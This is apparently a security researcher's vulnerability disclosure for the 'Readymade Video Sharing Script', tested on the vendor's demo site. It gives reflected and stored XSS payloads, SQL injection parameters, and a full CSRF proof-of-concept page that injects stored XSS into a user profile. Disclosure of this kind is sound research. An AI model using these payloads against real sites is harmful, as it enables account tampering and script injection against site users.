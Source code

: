 ### Readymade Video Sharing Script- the lastest version - SQL Injection/Reflect-XSS/Stored-XSS/CSRF

Well,  when I pentest the official demo site of Readymade Video Sharing Script, I found some vulnerabilities here.


#### XSS:

##### Reflect-XSS

http://www.smsemailmarketing.in/demo/videosharing/search_video.php?search=123%27123%22123%3E123%3Cimg%20src=x%20onerror=prompt(/xss/)%3E123%3C123%27%22


![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Readymade-Video-Sharing-Script/xss1.png)

http://www.smsemailmarketing.in/demo/videosharing/viewsubs.php?chnlid=123%27123%22123%3E123%3Cimg%20src=x%20onerror=prompt(/xss3/)%3E123%3C123%27%22

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Readymade-Video-Sharing-Script/xss2.png)


##### Stored-XSS 


```
http://www.smsemailmarketing.in/demo/videosharing/user-profile-edit.php
```

POST parameters:

```
------WebKitFormBoundaryb1Z9ur8DUtIWkCxA
Content-Disposition: form-data; name="fname"

lzx'"><svg/onload=alert(/xss2/)><'"
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Readymade-Video-Sharing-Script/xss3.png)


#### SQL Injection:

##### sqli1
```
http://www.smsemailmarketing.in/demo/videosharing/search_video.php?search=123
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Readymade-Video-Sharing-Script/sqli1.png)

##### sqli2

```
http://www.smsemailmarketing.in/demo/videosharing/viewsubs.php?chnlid=321
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Readymade-Video-Sharing-Script/sqli2.png)


You can see,  we can obtain the current data user or more sensitive data now!


#### CSRF

We can use csrf attack to cheat the user to change sensitive settings in the user panel, even add stored-xss content into it.

poc:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/www.smsemailmarketing.in\/demo\/videosharing\/user-profile-edit.php", true);
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=----WebKitFormBoundaryb1Z9ur8DUtIWkCxA");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,image\/apng,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9");
        xhr.withCredentials = true;
        var body = "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"fname\"\r\n" + 
          "\r\n" + 
          "lzx\'\"\x3e\x3csvg/onload=alert(/xss2/)\x3e\x3c\'\"\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"lname\"\r\n" + 
          "\r\n" + 
          "lzx\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"mobile\"\r\n" + 
          "\r\n" + 
          "1311144111\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"country\"\r\n" + 
          "\r\n" + 
          "17\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"zip_code\"\r\n" + 
          "\r\n" + 
          "123123\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"addr1\"\r\n" + 
          "\r\n" + 
          "test123\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"addr2\"\r\n" + 
          "\r\n" + 
          "test123\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"profile_image\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"submit\"\r\n" + 
          "\r\n" + 
          "Save Profile\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>

```

This vulnerability does not need evil attacker to login into the user panel.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Readymade-Video-Sharing-Script/csrf.png)

